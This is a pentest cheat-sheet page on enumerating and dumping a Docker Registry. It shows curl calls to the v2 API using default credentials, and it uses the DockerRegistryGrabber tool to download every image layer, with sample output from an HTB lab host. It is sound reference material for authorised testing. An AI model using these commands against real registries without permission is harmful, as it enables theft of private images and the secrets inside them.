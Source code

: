 ```yaml
---
title: "Docker Registry"
date: 2024-7-12
tags: ["Database Dumping", "Docker", "Container", "Docker Registry"]
---
```


### Docker Registry API

```console
# List repos
curl -s -k --user "<USER>:<PASSWORD>" <TARGET>/v2/_catalog
```

```console {class="sample-code"}
$ curl -s -k --user "admin:admin" https://docker.registry.htb/v2/_catalog
{"repositories":["bolt-image"]}
```

```console
# List of tags of this repo
curl -s -k --user "<USER>:<PASSWORD>" <TARGET>/v2/<REPO_NAME>/tags/list
```

```console {class="sample-code"}
$ curl -s -k --user "admin:admin" https://docker.registry.htb/v2/bolt-image/tags/list
{"name":"bolt-image","tags":["latest"]}
```

```console
# List manifest file for this tag (e.g. latest)
curl -s -k --user "<USER>:<PASSWORD>" <TARGET>/v2/<REPO_NAME>/manifests/<TAG>
```

```console {class="sample-code"}
$ curl -s -k --user "admin:admin" https://docker.registry.htb/v2/bolt-image/manifests/latest
{
   "schemaVersion": 1,
   "name": "bolt-image",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      ...[SNIP]...
}
```

```console
# Get a commit of the image
curl -s -k --user "<USER>:<PASSWORD>" <TARGET>/v2/<REPO_NAME>/blobs/sha256:<BLOB_HASH> > <BLOB_HASH>.tar.gz
```

```console {class="sample-code"}
$ curl -s -k --user "admin:admin" https://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b > 302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.tar.gz
```

---

### Docker Registry Dump

{{< tab set1 tab1 >}}DockerRegistryGrabber{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# List repos
python3 drg.py <TARGET> -p <PORT> -U '<USER>' -P '<PASSWORD>' --list
```

```console {class="sample-code"}
$ python3 drg.py https://docker.registry.htb -p 443 -U 'admin' -P 'admin' --list
[+] bolt-image
```

```console
# Dump repo
python3 drg.py <TARGET> -p <PORT> -U '<USER>' -P '<PASSWORD>' --dump <REPO_NAME>
```

```console {class="sample-code"}
$ python3 drg.py https://docker.registry.htb -p 443 -U 'admin' -P 'admin' --dump bolt-image
[+] BlobSum found 10
[+] Dumping bolt-image
    [+] Downloading : 302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b
    [+] Downloading : 3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee
    [+] Downloading : 02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c
    [+] Downloading : c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7
...[SNIP]...
```

<small>*Ref: [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber)*</small>

{{< /tabcontent >}}
